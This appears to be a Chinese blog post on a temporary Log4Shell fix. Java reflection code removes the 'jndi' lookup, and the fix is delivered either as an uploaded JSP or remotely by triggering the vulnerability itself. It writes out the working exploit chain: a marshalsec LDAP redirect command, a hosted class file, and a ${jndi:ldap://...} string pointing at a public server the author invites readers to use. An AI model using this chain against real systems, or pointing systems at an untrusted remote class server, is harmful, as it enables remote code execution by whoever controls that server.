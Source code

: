目前来说，最靠谱的修复方式还是升级到新版本。但是如果很多老旧项目是没人维护的，升级也不太现实。



宽字节的团队的师傅们提出了反射修改属性的临时修复方法，通过strLookupMap中的jndi来修复。



优点是可以比较方便，不需要重新编译。缺点是比较临时，应用重启以后就失效了。



宽字节的团队的师傅的方法是将代码做成jsp，然后上传执行。

```java
<%
Object obj = LogManager.getLogger();
Field contextF = obj.getClass().getDeclaredField("context");
contextF.setAccessible(true);
Object context = contextF.get(obj);
Field configurationF = context.getClass().getDeclaredField("configuration");
configurationF.setAccessible(true);
Object configuration = configurationF.get(context);
Field substF = configuration.getClass().getSuperclass().getDeclaredField("subst");
substF.setAccessible(true);
Object subst = substF.get(configuration);
Field variableResolverF = subst.getClass().getDeclaredField("variableResolver");
variableResolverF.setAccessible(true);
Object variableResolver = variableResolverF.get(subst);
Field strLookupMapF = variableResolver.getClass().getDeclaredField("strLookupMap");
strLookupMapF.setAccessible(true);
HashMap strLookupMap = (HashMap) strLookupMapF.get(variableResolver);
strLookupMap.remove("jndi");
%>
```

这种方式针对tomcat的环境，确实是比较有效的。但是针对于springboot和一些非web的受影响程序，比如我的世界等等，就爱莫能助呢。



但是我们能利用JNDI来执行命令，其实也可以利用JNDI来远程修复漏洞。



将代码编译为class

```java
import org.apache.logging.log4j.LogManager;

import java.lang.reflect.Field;
import java.util.HashMap;

public class Repair {
    public Repair() throws Exception {
        Object obj = LogManager.getLogger();
        Field contextF = obj.getClass().getDeclaredField("context");
        contextF.setAccessible(true);
        Object context = contextF.get(obj);
        Field configurationF = context.getClass().getDeclaredField("configuration");
        configurationF.setAccessible(true);
        Object configuration = configurationF.get(context);
        Field substF = configuration.getClass().getSuperclass().getDeclaredField("subst");
        substF.setAccessible(true);
        Object subst = substF.get(configuration);
        Field variableResolverF = subst.getClass().getDeclaredField("variableResolver");
        variableResolverF.setAccessible(true);
        Object variableResolver = variableResolverF.get(subst);
        Field strLookupMapF = variableResolver.getClass().getDeclaredField("strLookupMap");
        strLookupMapF.setAccessible(true);
        HashMap strLookupMap = (HashMap) strLookupMapF.get(variableResolver);
        strLookupMap.remove("jndi");
    }

    public static void main(String[] args) throws Exception {
        Repair t = new Repair();
    }
}
```



然后使用marshalsec-0.0.3-SNAPSHOT-all.jar进行重定向

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.106:8100/#Repair"`

![image-20211212141844737](images/image-20211212141844737.png)

Python启动web服务

![image-20211212141926091](images/image-20211212141926091.png)

在web中执行修复payload，然后请求多次

![image-20211212141954615](images/image-20211212141954615.png)

根据jndi服务器的请求，在被执行一次后，客户端漏洞成功临时修复。后续payload均未执行。

![image-20211212142008757](images/image-20211212142008757.png)

**为方便大家修复，我搭建了一个公网服务器，修复代码 ${jndi:ldap://139.155.45.67:21389/Repair}, 可以自行反编译class，检测是否恶意**

最后

**本方法仅仅为临时修复，应用重启后会失效，条件允许的情况下还是推荐使升级到新版本**

![image-20211212153322352](images/image-20211212153322352.png)